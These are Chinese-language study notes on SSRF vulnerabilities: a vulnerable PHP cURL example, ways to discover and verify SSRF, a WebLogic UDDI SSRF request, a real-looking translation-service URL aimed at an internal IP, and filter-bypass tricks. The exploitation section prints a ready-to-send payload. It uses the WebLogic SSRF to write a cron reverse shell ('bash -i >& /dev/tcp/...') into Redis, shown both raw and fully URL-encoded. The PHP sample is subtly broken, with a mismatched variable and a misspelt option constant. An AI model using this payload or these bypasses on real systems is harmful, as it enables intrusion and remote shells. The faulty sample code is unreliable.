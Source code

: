 

开这篇就是想便分享边做学习



### ssrf案例

漏洞代码分析

```php
<?php
   function curl($curl){
            
            $ch = curl_init();       //初始化代码
            curl_setopt($ch,CURLOPT_URL,$url);
            curl_setopt($ch,CURLOPT_HEARER,0);
            curl_exec($ch);      //执行访问URL
            curl_close($ch);     //关闭连接
   }
   $url = $_GET['url'];      //GET请求获取URL
   curl($url);
?>
    
libcurl目前支持http、https、ftp、gopher、telnet、dict、file和ldap协议。libcurl同时也支持HTTPS认证、HTTP POST、HTTP PUT、 FTP 上传(这个也能通过PHP的FTP扩展完成)、HTTP 基于表单的上传、代理、cookies和用户名+密码的认证。

PHP中使用cURL实现Get和Post请求的方法
```

漏洞相关函数

file_get_content()
  curl -> curl_exec()
  socket - fsockopen()

#### 漏洞点发现

**web功能上**

1. 分享：通过URL地址分享网页内容
2. 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
3. 在线翻译：通过URL地址翻译对应文本的内容  提供此功能的百度、有道等。有道翻译某处SSRF可通网易内网：
4. 图片加载与下载：通过URL地址加载或下载图片 ，对图片做些微小调整例如加水印、压缩等，就必须要把图片下载到服务器的本地，所以就可能造  成SSRF问题
5. 图片文章收藏

**URL关键字**

share，src target，display，url

要配合fofa，shodan

**通用型**

weblogic配置不当，自带ssrf  可

```
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

discuz 

#### 漏洞验证

1. 有回显
2. 有延时 比如?url=www.google.com，有大量延时，而访问有的很快，有差异
3. 外带请求 可以利用dnslog平台测试（http://ceye.io/records/dns

http://www.baidu.com/img/favicon.ico

第一种肯定不会存在ssrf

http://rxx/image?imageUrl=http://www.baidu.com/img/favicon.ico

http://rxx/image?imageUrl=http://10.10.10.10/img/favicon.ico

考虑是不是存在内外网限制



找存在HTTP服务的内网地址：
1、从漏洞平台中的历史漏洞寻找泄漏的存在web应用内网地址
2、通过二级域名暴力猜解工具模糊猜测内网地址



#### 案例

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

案例1某翻译网SSRF可通内网

http://fanyi.youdao.com/WebpageTranslate?keyfrom=webfanyi.top&url=http%3A%2F%2F10.100.21.3%2Fmessage.shtml&type=EN2ZH_CN

是内网的资产和翻译同网段



案例2某翻译网SSRF防护绕过
案例3某站SSRF读取本地文件
案例4某站视频解析导致SSRF
案例5某狗主站SSRF多种绕过
案例6某乎网SSRF可探测内网

#### 利用危害

1. 探测内网，端口等信息
2. 内网应用攻击 mysql，redis只能本地访问的利用跨协议通信！！！！

```
6379探测到发送三条redis命令，将弹shell脚本写入/etc/crontab

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

进行url编码，
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa

注意，换行符是“\r\n”，也就是“%0D%0A”。
将url编码后的字符串放在ssrf的域名后面，发送：
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.18.0.3:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


反弹成功

先探测ip，在探测端口，五种状态
```



1. 文件读取 file协议
2. dos攻击，请求大文件始终保持keep-alive always
3. 绕过cdn，拿ip

#### 绕过

1. 请求url中添加个端口  127.0.0.1：80
2. 短链接，替换localhost，127
3. 编码  换进制ip
4. fuzz，混淆  # @ 。再编码
